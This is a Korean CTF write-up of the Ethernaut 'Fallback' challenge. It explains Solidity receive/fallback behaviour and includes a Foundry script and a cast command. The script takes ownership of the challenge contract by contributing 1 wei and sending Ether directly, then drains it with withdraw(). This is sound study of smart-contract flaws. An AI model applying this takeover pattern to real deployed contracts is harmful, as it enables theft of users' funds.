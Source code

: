 ```yaml
---
tags:
  - Ethernaut
  - Write-up
---
```


소스코드부터 살펴보겠습니다.
이미지로 가져왔는데, 일일이 다 볼 필요는 없어서 그냥 전체 코드 양을 가늠하는 느낌으로 첨부해보았습니다.
![[Pasted image 20241004031515.png]]

사실 `receive()`, `fallback()` 함수가 어떤 것인지 살펴보면 되는 문제입니다. 코드는 함수 이름들에서 알 수 있듯이, 누구나 Ether를 기여(contribute)할 수 있고.. 주인만 회수(withdraw)할 수 있는 기능을 보여주고 있습니다. 

문제의 목표는 `withdraw()`함수로 이 컨트랙트를 털어가는 것입니다.
이를 위해 pwnable 문제에서 shell 따는 것처럼 `owner = msg.sender;` 가 일어나는 `receive()`함수를 호출하면 될 것임을 쉽게 알 수 있습니다.

아무래도 공식문서를 보는게 제일 좋다고 생각합니다...  [Solidity Docs, Fallback Function](https://docs.soliditylang.org/en/latest/contracts.html#fallback-function), 일단 문제 이름이 fallback이니 여기서는 fallback 함수를 살펴본 내용만 잠깐 메모해두겠습니다. 



---

![[Pasted image 20241004032043.png]]
- 주어진 **function signature**가 맞는 것이 없으면 execute 됨
- **data**가 전혀 주어지지 않고 `receive`함수도 없으면 exeucte
	- <mark style="background: #ADCCFFA6;">사실 이 부분은 좀 이해가 안갑니다.</mark>
	- 직접 이런 Tx 날려보면서 확인해보면 될 것 같습니다. 향후 기록으로 남겨보려 합니다.
- 항상 **data**는 받지만, Ether를 받으려면 *payable* 명시

그리고, warning 카드도 있어서 가져와봤습니다.
![[Pasted image 20241004032341.png]]
- `receive` 함수가 없을 때 *payable* fallback 함수는 평범한 Ether 전송을 위해 execute 됨
- "interface confusion"으로부터 Ether 전송을 구분하기 위해서 두 종류의 함수를 항상 같이 구현하는 것이 권장됨.
	- 이 부분도 명확히 이해하진 못한 것 같습니다.
	- <mark style="background: #ADCCFFA6;">Interface Confusion</mark>에 관해서는 따로 공부해야 할 것 같네요.

---

공식문서를 토대로 그냥 Ether를 보내면 receive를 호출할 수 있음을 알 수 있습니다.
코드 상으로는 그 전에 contribute를 한번 해야 하니... foundry 연습도 할 겸 아래와 같이 간단한 스크립트를 작성해보았습니다.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Fallback} from "../src/EN_1_Fallback.sol";

contract EN_1 is Script {
    Fallback public ctrt = Fallback(payable(0xc8CB5439c767A63aca1c01862252B2F3495fDcFE));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIV_KEY"));

        address old_owner = ctrt.owner();

        ctrt.contribute{value: 1 wei}();
        address(ctrt).call{value: 1 wei}("");

        address new_owner = ctrt.owner();

        console.log(old_owner);
        console.log(new_owner);

        ctrt.withdraw();

        vm.stopBroadcast();
    }
}
```

사실 사이즈가 작은 exploit 코드일 것 같아서, 일단 `cast` 명령어로 풀어보는 데에 성공했었습니다.
아래와 같은 방식으로 두 줄 더 입력하고 나니 성공했었습니다.

```bash
 cast send 0x7ab4C4804197531f7ed6A6bc0f0781f706ff7953 "contribute()" --rpc-url http://127.0.0.1:8545 --private-key 0x**************************************************************** --value 1wei
```

어쨋든.. 스크립트를 실행해보면 아래 `Logs` 와 같이 Owner의 주소가 바뀐 것을 확인할 수 있습니다.
![[Pasted image 20241004044415.png]]

![[Pasted image 20241004044539.png]]

---

## 여담
사실 localnet으로 위 스크립트를 입력해보았는데, 뭐가 자꾸 안되는 겁니다... 특히 <mark style="background: #FF5582A6;">EvmError: NotActivated</mark> 라는 에러가 계속 떠서 좀 힘들었습니다.
내가 어디를 빼먹었나 몇 번 점검해보아도 안나오길래 구글링을 좀 했더니 [해결법](https://ethereum.stackexchange.com/a/163822)을 찾았습니다. evm_version을 `foundry.toml`에 명시하지 않아 발생하는 에러라고 하는데, 정말 아래와 같이 추가해주니 해결되었습니다. 

```toml
evm_version="shanghai"
```
혹시나 하는 마음에 Ethernaut 레포로 가보니 evm_version을 명시하고 있었습니다...

![[Pasted image 20241004043736.png]]

삽질은 끝나지 않네요... -_-;; 또 하나 배워가는 것 같습니다.